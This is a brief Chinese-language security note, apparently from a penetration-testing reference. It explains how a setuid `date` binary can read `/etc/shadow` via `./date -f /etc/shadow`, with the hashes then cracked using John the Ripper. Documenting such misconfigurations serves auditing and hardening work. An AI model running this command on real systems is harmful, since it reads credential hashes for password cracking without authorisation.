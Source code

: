 # date

`date` 若具有 `s` 权限，可以被用来读取一些高权限文件的内容，例如`/etc/shadow`

使用如下命令读取`/etc/shadow` 的内容：

```
./date -f /etc/shadow
```

![](https://isecurityclub-1253463441.cos.ap-chengdu.myqcloud.com/date-1.png)

然后使用`john` 对 hash 进行破解.
